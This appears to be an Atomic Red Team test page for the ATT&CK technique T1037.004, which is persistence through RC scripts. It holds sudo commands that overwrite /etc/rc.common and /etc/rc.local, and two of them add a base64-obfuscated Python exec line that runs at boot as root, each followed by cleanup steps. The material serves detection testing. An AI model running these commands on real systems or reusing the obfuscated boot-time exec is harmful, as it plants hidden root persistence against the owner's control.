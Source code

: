 # T1037.004 - RC Scripts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/004)
<blockquote>Adversaries may establish persistence by modifying RC scripts which are executed during a Unix-like system’s startup. These files allow system administrators to map and start custom services at startup for different run levels. RC scripts require root privileges to modify.

Adversaries can establish persistence by adding a malicious binary path or shell commands to <code>rc.local</code>, <code>rc.common</code>, and other RC scripts specific to the Unix-like distribution.(Citation: IranThreats Kittens Dec 2017)(Citation: Intezer HiddenWasp Map 2019) Upon reboot, the system executes the script's contents as root, resulting in persistence.

Adversary abuse of RC scripts is especially effective for lightweight Unix-like distributions using the root user as default, such as IoT or embedded systems.(Citation: intezer-kaiji-malware)

Several Unix-like systems have moved to Systemd and deprecated the use of RC scripts. This is now a deprecated mechanism in macOS in favor of [Launchd](https://attack.mitre.org/techniques/T1053/004). (Citation: Apple Developer Doco Archive Launchd)(Citation: Startup Items) This technique can be used on Mac OS X Panther v10.3 and earlier versions which still execute the RC scripts.(Citation: Methods of Mac Malware Persistence) To maintain backwards compatibility some systems, such as Ubuntu, will execute the RC scripts if they exist with the correct file permissions.(Citation: Ubuntu Manpage systemd rc)</blockquote>

## Atomic Tests

- [Atomic Test #1 - rc.common](#atomic-test-1---rccommon)

- [Atomic Test #2 - rc.common](#atomic-test-2---rccommon)

- [Atomic Test #3 - rc.local](#atomic-test-3---rclocal)


<br/>

## Atomic Test #1 - rc.common
Modify rc.common

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/StartupItems.html)

**Supported Platforms:** macOS





#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo echo osascript -e 'tell app "Finder" to display dialog "Hello World"' >> /etc/rc.common
```






<br/>
<br/>

## Atomic Test #2 - rc.common
Modify rc.common

**Supported Platforms:** Linux





#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.common';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.common.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.common
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMuY29tbW9uID4gL3RtcC9UMTAzNy4wMDQucmMuY29tbW9uJykK'))\"" | sudo tee -a /etc/rc.common
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.common
sudo chmod +x /etc/rc.common
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.common.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.common;else sudo cp $origfilename /etc/rc.common && sudo rm $origfilename;fi
```





<br/>
<br/>

## Atomic Test #3 - rc.local
Modify rc.local

**Supported Platforms:** Linux





#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.local';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.local.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.local
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMubG9jYWwgPiAvdG1wL1QxMDM3LjAwNC5yYy5sb2NhbCcpCgo='))\"" | sudo tee -a /etc/rc.local
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.local.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.local;else sudo cp $origfilename /etc/rc.local && sudo rm $origfilename;fi
```





<br/>
